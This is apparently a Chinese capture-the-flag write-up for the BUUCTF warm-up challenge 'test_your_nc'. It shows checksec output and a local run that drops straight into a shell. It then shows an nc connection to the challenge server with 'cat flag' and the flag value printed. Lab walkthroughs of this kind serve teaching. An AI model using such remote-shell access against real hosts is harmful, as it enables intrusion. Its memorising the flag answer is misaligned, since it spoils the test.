 ```yaml
---
author: 
  name: Zephyr
title: 'test_your_nc'
date: 2022-3-19 16:53:01
permalink: /pages/4e844742d534d18b
tags: 
  - buuctf
---
```

# 'test_your_nc'

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec test
[*] '/root/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### 流程分析

尝试直接运行

```shell
root@localhost ~# ./test
sh-4.2# whoami
root
```

可以看到直接就获得了shell,直接nc连接获得flag

### exp

```shell
root@localhost ~# nc node4.buuoj.cn 29403
cat flag
flag{7730b1f6-6dbe-49f0-b4ca-4902ec2552c3}
```

